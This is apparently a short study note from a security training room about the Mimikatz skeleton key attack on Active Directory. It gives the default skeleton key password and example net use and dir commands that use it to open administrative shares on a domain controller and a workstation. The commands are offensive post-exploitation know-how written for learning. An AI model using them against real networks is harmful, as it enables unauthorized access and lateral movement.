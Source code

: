 ```yaml
---
title: 9.4 Accessing the forest
updated: 2023-04-02T11:26:19.0000000+04:00
created: 2023-04-02T11:25:42.0000000+04:00
---
```


AM

Accessing the forest -

The default credentials will be: "mimikatz"

example: net use c:\\\DOMAIN-CONTROLLER\admin\$ /user:Administrator mimikatz

- \- The share will now be accessible without the need for the Administrators password

example: dir [\\\Desktop-1\c\$](file://Desktop-1/c$) /user:Machine1 mimikatz

- \- access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.
